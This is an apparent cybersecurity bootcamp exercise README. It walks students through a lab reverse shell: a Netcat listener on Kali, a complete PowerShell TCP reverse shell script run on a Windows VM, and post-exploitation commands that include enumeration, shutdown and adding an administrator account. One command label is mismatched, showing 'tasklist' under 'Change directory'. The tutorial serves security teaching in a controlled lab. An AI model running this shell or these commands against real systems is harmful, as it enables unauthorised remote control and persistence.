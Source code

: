 # Windows CMD Commands for Remote Hacking
<!-- hide -->

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/commands-for-remote-hacking/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![Twitter Follow](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*These instructions are also [available in Spanish](https://github.com/breatheco-de/commands-for-remote-hacking/blob/main/README.es.md)*
<!-- endhide -->

### Before you start...

> We need you! These exercises are created and maintained in collaboration with people like you. If you find any errors or typos, please contribute and/or report them.

## 🌱 How to Start This Project

This exercise aims to utilize Windows CMD commands in the context of a remote connection, simulating a remote hacking attack. This tutorial will help you establish a reverse shell from a Windows 10 machine to a Kali Linux machine, executing a series of commands to gather critical information from the Windows system. All of this will be done in a controlled environment, using virtual machines, and will focus on the post-exploitation phase of an ethical attack.


### Requirements

- **Attacker Machine (Kali Linux)**:
  - Required Software: `Netcat` (pre-installed on Kali Linux)
  
- **Target Machine (Windows 10)**:
  - Access to **PowerShell** and permission to run scripts

> Both virtual machines must be configured with the bridged adapter option so they can communicate over the local network.

## 📝 Instructions

1. Network Configuration: Verify that both machines can communicate using the ping command from Kali to Windows and vice versa.

2. Establish the connection with Netcat on the Kali Linux machine (Attacker). Open a terminal and listen on a specific port (in this case, port 4444) using Netcat:

```bash
nc -lvnp 4444
```

This will set up a listener on the Kali machine, waiting for a connection from Windows.

3. Open PowerShell on the Windows 10 machine (Target) and execute the following script to establish the reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

**Note**: Remember to replace "IP-of-Kali" with the IP address of your Kali Linux machine.

![imagen](assets/powershell.png)


With the script running on Windows, you can now send commands from Kali through the Netcat session you initiated. Here are some useful commands to interact with the Windows machine:

![imagen 1](assets/listening_dir.png)

### Basic Windows Commands:

- **List files in the current directory**:

```bash
dir
```
- **Get system information**:
```bash
systeminfo
```

![imagen 2](assets/systeminfo.png)

- **Get network configuration:**:
```bash
ipconfig
```
![imagen 3](assets/ipconfig.png)

- **List running processes**:
```bash
tasklist
```
### Commands for Detailed Information:

![imagen 4](assets/hostname.png)

- **View system information**:
    ```bash
    hostname
    ```
- **List users on the system**:
    ```bash
    net user
    ```
    
- **View active network connections:**:
    ```bash
    netstat -an
    ```

### Commands for Navigating the File System:

- **Change directory:**:
    ```bash
    tasklist
    ```
- **Create a file or directory:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Administrative Commands (if you have privileges):

- **Shut down or restart the system:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Add an administrator user:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Research more commands to practice..

### End the Session
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)

## Contributors

Thanks to these amazing people ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr), contribution: (bug reports) 🐛

This project follows the [all-contributors](https://github.com/kentcdodds/all-contributors) specification. Contributions of any kind are welcome!

This and other exercises are used to [learn to code](https://4geeksacademy.com/us/learn-to-code) by students at 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) led by [Alejandro Sánchez](https://twitter.com/alesanchezr) and many other contributors. Learn more about our [Programming Courses](https://4geeksacademy.com/us/programming-courses) to become a [Full Stack Developer](https://4geeksacademy.com/us/coding-bootcamps/full-stack-developer), or our [Data Science Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/data-science-machine-learning-bootcamp). You can also dive into cybersecurity with our [Cybersecurity Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/cybersecurity-bootcamp).

<!-- endhide -->
